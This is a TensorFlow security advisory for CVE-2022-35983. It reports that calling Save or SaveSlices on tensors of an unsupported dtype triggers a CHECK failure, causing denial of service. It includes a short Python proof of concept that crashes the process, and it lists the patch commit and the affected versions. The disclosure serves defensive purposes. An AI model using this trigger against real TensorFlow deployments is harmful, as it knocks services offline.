 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-114.md
## TFSA-2022-114: `CHECK` fail in `Save` and `SaveSlices`

### CVE Number
CVE-2022-35983

### Impact
If `Save` or `SaveSlices` is run over tensors of an unsupported `dtype`, it results in a `CHECK` fail that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
filename = tf.constant("")
tensor_names = tf.constant("")
# Save
data = tf.cast(tf.random.uniform(shape=[1], minval=-10000, maxval=10000, dtype=tf.int64, seed=-2021), tf.uint64)
tf.raw_ops.Save(filename=filename, tensor_names=tensor_names, data=data, )
# SaveSlices
shapes_and_slices = tf.constant("")
data = tf.cast(tf.random.uniform(shape=[1], minval=-10000, maxval=10000, dtype=tf.int64, seed=9712), tf.uint32)
tf.raw_ops.SaveSlices(filename=filename, tensor_names=tensor_names, shapes_and_slices=shapes_and_slices, data=data, )
```

### Patches
We have patched the issue in GitHub commit [5dd7b86b84a864b834c6fa3d7f9f51c87efa99d4](https://github.com/tensorflow/tensorflow/commit/5dd7b86b84a864b834c6fa3d7f9f51c87efa99d4).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Di Jin, Secure Systems Labs, Brown University
